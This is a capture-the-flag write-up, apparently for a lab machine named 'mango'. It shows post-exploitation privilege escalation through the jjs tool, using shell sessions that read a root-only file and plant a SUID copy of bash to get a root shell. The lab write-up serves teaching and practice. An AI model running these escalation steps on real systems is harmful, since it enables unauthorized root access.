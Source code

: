 ## Post-Exploitation
### SSH Access for admin user
The user, admin is unable to gain SSH access via the SSH command in the terminal due to the fact that this user is not allowed to SSH in /etc/ssh/sshd_config

```
AllowUsers mango root
```

### Exploiting jjs
Another way of obtaining the root flag is to use jjs to spawn an interactive shell that can execute commands

During the execution of this exploit, I realized that we would have to execute the commands one-by-one and not combine these commands together (For eg. cp /root/root.txt /tmp/root.txt; chmod 777 /tmp/root.txt will not work)
```
admin@mango:/tmp$ jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('cp /root/root.txt /tmp/root.txt').waitFor();
0
jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod 777 /tmp/root.txt').waitFor();
0
jjs> exit()
admin@mango:/tmp$ cat root.txt
<Redacted root flag>
```

Another alternative way of exploiting jjs is to first copy the /bin/bash binary into /tmp/exploit. Afterwards, set the SUID on /tmp/exploit.

```
admin@mango:/tmp$ jjs
Warning: The jjs tool is planned to be removed from a future JDK release
jjs> Java.type('java.lang.Runtime').getRuntime().exec('cp /bin/bash /tmp/exploit').waitFor();
0
jjs> Java.type('java.lang.Runtime').getRuntime().exec('chmod 4755 /tmp/exploit').waitFor();
0
jjs> exit()
admin@mango:/tmp$ ls -la /tmp/exploit
-rwsr-xr-x 1 root admin 1113504 Dec 25 15:15 /tmp/exploit
```

After that, all we have to do is to execute /tmp/exploit with the ```-p``` flag to ensure that the /tmp/exploit retains the effective userid, to obtain a root shell.

```
admin@mango:/tmp$ /tmp/exploit -p
exploit-4.4# id
uid=4000000000(admin) gid=1001(admin) euid=0(root) groups=1001(admin)
exploit-4.4# whoami
root
exploit-4.4#
```
